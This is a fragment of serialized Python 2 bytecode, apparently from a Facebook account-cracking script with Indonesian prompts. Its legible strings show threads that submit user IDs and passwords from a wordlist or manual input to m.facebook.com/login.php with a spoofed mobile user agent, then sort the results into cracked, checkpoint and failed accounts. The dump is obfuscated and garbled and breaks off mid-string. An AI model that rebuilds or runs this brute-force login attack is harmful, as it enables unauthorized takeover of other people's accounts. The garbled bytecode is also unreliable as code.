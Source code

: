 (y/t)RN\x00\x00\x00RO\x00\x00\x00(\x11\x00\x00\x00R?\x00\x00\x00R\x0c\x00\x00\x00RC\x00\x00\x00R\x14\x00\x00\x00RE\x00\x00\x00R/\x00\x00\x00R*\x00\x00\x00R0\x00\x00\x00R1\x00\x00\x00R\x1f\x00\x00\x00t\x08\x00\x00\x00id_temanR)\x00\x00\x00R\x10\x00\x00\x00R"\x00\x00\x00R\x1e\x00\x00\x00RP\x00\x00\x00RQ\x00\x00\x00(\x02\x00\x00\x00RL\x00\x00\x00R\x0b\x00\x00\x00(\x00\x00\x00\x00(\x00\x00\x00\x00s\x07\x00\x00\x00<febry>t\x07\x00\x00\x00idteman\xb0\x00\x00\x00s2\x00\x00\x00\x00\x01\x0c\x01\n\x01\x07\x01\x0c\x01\r\x01\x10\x01\x03\x01\x19\x01\x03\x01\x12\x01\x17\x02\n\x01\x0b\x01\x03\x01\x10\x01\x03\x01\x19\x01\x03\x01\x14\x01\t\x01\x07\x01\x15\x01\x12\x01\n\x02t\x02\x00\x00\x00mtc\x00\x00\x00\x00\x00\x00\x00\x00\x01\x00\x00\x00B\x00\x01\x00s#\x00\x00\x00e\x00\x00Z\x01\x00d\x00\x00\x84\x00\x00Z\x02\x00d\x01\x00\x84\x00\x00Z\x03\x00d\x02\x00\x84\x00\x00Z\x04\x00RS(\x03\x00\x00\x00c\x03\x00\x00\x00\x03\x00\x00\x00\x02\x00\x00\x00C\x00\x01\x00s/\x00\x00\x00t\x00\x00j\x01\x00j\x02\x00|\x00\x00\x83\x01\x00\x01|\x01\x00|\x00\x00_\x03\x00d\x01\x00|\x00\x00_\x04\x00|\x02\x00|\x00\x00_\x05\x00d\x00\x00S(\x02\x00\x00\x00Ni\x03\x00\x00\x00(\x06\x00\x00\x00t\t\x00\x00\x00threadingt\x06\x00\x00\x00Threadt\x08\x00\x00\x00__init__t\x02\x00\x00\x00idR!\x00\x00\x00R\x05\x00\x00\x00(\x03\x00\x00\x00t\x04\x00\x00\x00selfR\x0b\x00\x00\x00R\x05\x00\x00\x00(\x00\x00\x00\x00(\x00\x00\x00\x00s\x07\x00\x00\x00<febry>RY\x00\x00\x00\xcd\x00\x00\x00s\x08\x00\x00\x00\x00\x01\x10\x01\t\x01\t\x01c\x01\x00\x00\x00\x01\x00\x00\x00\x02\x00\x00\x00C\x00\x01\x00s\x10\x00\x00\x00|\x00\x00j\x00\x00|\x00\x00j\x01\x00f\x02\x00S(\x01\x00\x00\x00N(\x02\x00\x00\x00R!\x00\x00\x00RZ\x00\x00\x00(\x01\x00\x00\x00R[\x00\x00\x00(\x00\x00\x00\x00(\x00\x00\x00\x00s\x07\x00\x00\x00<febry>t\x06\x00\x00\x00update\xd2\x00\x00\x00s\x02\x00\x00\x00\x00\x01c\x01\x00\x00\x00\x02\x00\x00\x00\n\x00\x00\x00C\x00\x01\x00s\xde\x00\x00\x00yO\x00t\x00\x00j\x01\x00t\x00\x00j\x02\x00d\x01\x00d\x02\x00d\x03\x00t\x03\x00j\x04\x00i\x02\x00|\x00\x00j\x05\x00d\x04\x006|\x00\x00j\x06\x00d\x05\x006\x83\x01\x00d\x06\x00i\x01\x00d\x07\x00d\x08\x006\x83\x00\x03\x83\x01\x00}\x01\x00Wn:\x00\x04t\x07\x00k\n\x00ro\x00\x01\x01\x01t\x08\x00j\t\x00j\n\x00\x83\x00\x00\x01n\x1d\x00\x01\x01\x01d\t\x00|\x00\x00_\x0b\x00t\x08\x00j\t\x00j\n\x00\x83\x00\x00\x01n\x01\x00Xd\n\x00|\x01\x00j\x0c\x00k\x06\x00s\xaa\x00d\x0b\x00|\x01\x00j\x0c\x00k\x06\x00r\xb6\x00d\x0c\x00|\x00\x00_\x0b\x00n$\x00d\r\x00|\x01\x00j\x0c\x00k\x06\x00r\xd1\x00d\x0e\x00|\x00\x00_\x0b\x00n\t\x00d\x0f\x00|\x00\x00_\x0b\x00d\x00\x00S(\x10\x00\x00\x00NR1\x00\x00\x00s \x00\x00\x00https://m.facebook.com/login.phpt\x04\x00\x00\x00dataR3\x00\x00\x00R4\x00\x00\x00t\x07\x00\x00\x00headerssR\x00\x00\x00Opera/9.80 (Android; Opera Mini/32.0.2254/85. U; id) Presto/2.12.423 Version/12.16s\n\x00\x00\x00User-Agenti\x08\x00\x00\x00R5\x00\x00\x00s\x0b\x00\x00\x00save-devicei\x01\x00\x00\x00R7\x00\x00\x00i\x02\x00\x00\x00i\x00\x00\x00\x00(\r\x00\x00\x00t\x07\x00\x00\x00urllib2t\x07\x00\x00\x00urlopent\x07\x00\x00\x00Requestt\x06\x00\x00\x00urllibt\t\x00\x00\x00urlencodeRZ\x00\x00\x00R\x05\x00\x00\x00t\x11\x00\x00\x00KeyboardInterruptR\x11\x00\x00\x00R\x12\x00\x00\x00R\x13\x00\x00\x00R!\x00\x00\x00R1\x00\x00\x00(\x02\x00\x00\x00R[\x00\x00\x00R]\x00\x00\x00(\x00\x00\x00\x00(\x00\x00\x00\x00s\x07\x00\x00\x00<febry>t\x03\x00\x00\x00run\xd4\x00\x00\x00s\x18\x00\x00\x00\x00\x01\x03\x01O\x01\r\x01\x10\x01\x03\x01\t\x01\x11\x01\x1e\x01\x0c\x01\x0f\x01\x0c\x02(\x05\x00\x00\x00t\x08\x00\x00\x00__name__t\n\x00\x00\x00__module__RY\x00\x00\x00R\\\x00\x00\x00Re\x00\x00\x00(\x00\x00\x00\x00(\x00\x00\x00\x00(\x00\x00\x00\x00s\x07\x00\x00\x00<febry>RV\x00\x00\x00\xcc\x00\x00\x00s\x06\x00\x00\x00\x06\x01\t\x05\t\x02c\x01\x00\x00\x00\x04\x00\x00\x00\x05\x00\x00\x00C\x00\x01\x00s \x01\x00\x00t\x00\x00d\x01\x00d\x02\x00d\x03\x00g\x02\x00\x83\x02\x00}\x01\x00|\x01\x00j\x01\x00\x83\x00\x00d\x02\x00k\x02\x00r\x06\x01xE\x00t\x00\x00d\x04\x00\x83\x01\x00}\x02\x00y\x19\x00t\x02\x00|\x02\x00d\x05\x00\x83\x02\x00j\x03\x00\x83\x00\x00}\x03\x00Wn\x18\x00\x01\x01\x01t\x04\x00d\x06\x00|\x02\x00\x16\x83\x01\x00\x01q*\x00n\x01\x00XPq*\x00Wt\x04\x00d\x07\x00t\x05\x00|\x03\x00\x83\x01\x00\x16\x83\x01\x00\x01xE\x00|\x03\x00D]=\x00}\x01\x00|\x01\x00j\x06\x00d\x08\x00d\t\x00\x83\x02\x00}\x01\x00t\x05\x00|\x01\x00\x83\x01\x00d\n\x00k\x03\x00r\x8a\x00t\x07\x00|\x00\x00|\x01\x00d\n\x00\x83\x03\x00\x01q\x8a\x00q\x8a\x00Wt\x00\x00d\x0b\x00d\x0c\x00d\r\x00g\x02\x00\x83\x02\x00}\x01\x00|\x01\x00j\x01\x00\x83\x00\x00d\x0c\x00k\x02\x00r\xfc\x00t\x08\x00|\x00\x00\x83\x01\x00St\t\x00\x83\x00\x00Sn\x16\x00t\x07\x00|\x00\x00t\x00\x00d\x0e\x00\x83\x01\x00d\x0f\x00\x83\x03\x00Sd\x00\x00S(\x10\x00\x00\x00Ns!\x00\x00\x00[?]Pake Passwordlist/Manual (p/m)t\x01\x00\x00\x00Pt\x01\x00\x00\x00Ms\x16\x00\x00\x00[?]Masukan alamat fileR\x16\x00\x00\x00s\x17\x00\x00\x00\rm[!]Gagal membuka \rk%ss\'\x00\x00\x00\rh[*]Memulai crack dengan \rk%d passwords\x01\x00\x00\x00\nRG\x00\x00\x00i\x00\x00\x00\x00s.\x00\x00\x00[?]Tidak Puas dengan Hasil,Mau coba lagi